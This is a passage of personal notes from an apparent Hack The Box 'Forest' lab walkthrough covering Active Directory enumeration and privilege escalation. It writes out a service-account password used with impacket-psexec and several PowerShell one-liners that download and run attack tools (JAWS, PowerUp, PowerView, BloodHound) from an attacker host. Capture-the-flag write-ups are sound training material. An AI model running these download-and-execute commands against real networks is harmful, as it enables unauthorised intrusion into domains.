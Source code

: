 alternative, use impact-psexec to login (impact use smb to login) -> fialed, need admin rights to login
```
impacket-psexec svc-alfresco:'s3rvice'@forest.htb 
```

8: escalate previldge.
make sure apache is running
```
sudo service apache2 start
```
check apache logs:
```
sudo tail -f /var/log/apache2/access.log
```
load jaws: (just another windows enum script)
```
iex(new-object net.webclient).downloadstring('http://10.10.14.37/jaws.txt')
```
since result couldbe long, download to local linux to read:
```
download c:\windows\tasks\jawchecks.txt
```
from the result that i know svc-alfresco belongs to Service Accounts
```
Username: svc-alfresco
Groups:   Domain Users Service Accounts

```
9: load powerup (just like jaws, but will tell more pratical info to escalet the prev) -> cannt do anything here.
```
iex(new-object net.webclient).downloadstring('http://10.10.14.37/up.txt')
```
10: enumerate windows AD:
~1: load powerview: (powerview has lots of additional functions to enumerate the domain)
```
iex(new-object net.webclient).downloadstring('http://10.10.14.37/view.txt')
```
notes: TREE_ROOT->htb.local is the root domain; PRIMARY->I'm currently in this source domain.
```

Forest                  : htb.local
DomainControllers       : {FOREST.htb.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            : FOREST.htb.local
RidRoleOwner            : FOREST.htb.local
InfrastructureRoleOwner : FOREST.htb.local
Name                    : htb.local

SourceName        : htb.local
TargetName        : htb.local
TargetNetbiosName : HTB
Flags             : IN_FOREST, TREE_ROOT, PRIMARY, NATIVE_MODE
ParentIndex       : 0
TrustType         : UPLEVEL
TrustAttributes   : 0
TargetSid         : S-1-5-21-3072663084-364016917-1341370565
TargetGuid        : dff0c71a-a949-4b26-8c7b-52e3e2cb6eab

```
11, run bloodhound and adjust bloodhound to target htb.local.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).downloadstring('http://10.10.14.37/hound.txt')
```